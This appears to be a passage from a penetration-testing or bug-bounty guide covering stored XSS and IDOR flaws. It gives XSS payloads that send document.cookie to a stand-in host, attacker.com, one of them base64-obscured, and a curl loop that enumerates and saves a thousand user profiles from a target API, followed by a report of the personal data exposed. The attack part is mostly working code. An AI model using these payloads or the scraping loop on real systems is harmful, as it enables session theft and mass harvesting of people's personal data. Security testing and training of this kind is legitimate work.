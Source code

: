 **Stored XSS:**
```html
<!-- Comment field exploitation -->
<img src=x onerror="fetch('https://attacker.com/steal?data='+document.cookie)">

<!-- Profile bio exploitation -->
<svg/onload="eval(atob('ZmV0Y2goJ2h0dHBzOi8vYXR0YWNrZXIuY29tJyk='))">
```

**Broken Access Control Exploitation:**

**Insecure Direct Object Reference (IDOR):**
```bash
# Test IDOR vulnerability
curl -H "Authorization: Bearer USER_TOKEN" \
  https://api.target.com/users/123/profile

# Try accessing other users
curl -H "Authorization: Bearer USER_TOKEN" \
  https://api.target.com/users/124/profile  # Should fail but doesn't

# Enumerate all users
for id in {1..1000}; do
  curl -H "Authorization: Bearer USER_TOKEN" \
    https://api.target.com/users/$id/profile \
    -o "user_$id.json"
done
```

**Impact:**
```
🚨 BROKEN ACCESS CONTROL EXPLOIT

Vulnerability: Insecure Direct Object Reference (IDOR)
Endpoint: /api/users/:id/profile
Impact: Unauthorized access to all user profiles

Exploitation Steps:
1. Authenticated user can access /api/users/123/profile (their own)
2. Modify ID parameter to /api/users/124/profile
3. Server returns other user's data without authorization check
4. Automated script extracted 1,000+ user profiles

Data Exposed:
- Full names
- Email addresses
- Phone numbers
- Profile pictures
- Account creation dates
- Last login times

Risk: Critical - Privacy violation, potential identity theft
```
